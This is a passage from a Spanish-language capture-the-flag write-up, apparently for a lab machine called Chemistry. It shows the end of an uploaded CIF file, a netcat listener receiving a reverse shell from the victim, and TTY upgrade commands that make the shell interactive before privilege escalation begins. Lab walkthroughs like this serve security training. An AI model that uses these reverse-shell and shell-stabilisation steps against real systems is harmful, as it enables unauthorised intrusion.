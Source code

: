~~~ bash
# Other CIF data fields
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
~~~

Cuando subamos nuevamente el archivo y volvamos a hacer clic en `View`, recibiremos la conexión en nuestra máquina

~~~ bash
nc -lvnp 443    
listening on [any] 443 ...
connect to [10.10.14.254] from (UNKNOWN) [10.10.11.38] 46178
bash: cannot set terminal process group (1082): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ 
~~~

Con esto ya estaríamos dentro de la máquina víctima, podemos hacer el comando `hostname -I` para comprobar la IP y verificar que estemos en la máquina Chemistry y no en algún contenedor



# Escalada de privilegios
---
## TTY Treatment

Haremos un tratamiento de la TTY para que la consola sea más interactiva y así poder hacer uso de `CTRL + C` y `CTRL + L`

~~~ bash
script /dev/null -c bash
export TERM=xterm

# Presionamos CTRL + Z
# En nuestra máquina atacante ejecutamos lo siguiente
stty raw -echo; fg

# Volveremos a la máquina vítcima, reiniciamos la sesión
reset xterm
~~~

Ya podremos hacer `CTRL + C` sin que se nos vaya pal carajo la consola. Por último, ajustaremos las proporciones a las de nuestra terminal

~~~ bash
# En nuestra máquina vemos nuestras proporciones
stty size

45 184

# En la máquina vítcima ejecutamos lo siguiente
app@chemistry:~$ stty rows 45 columns 184
~~~~
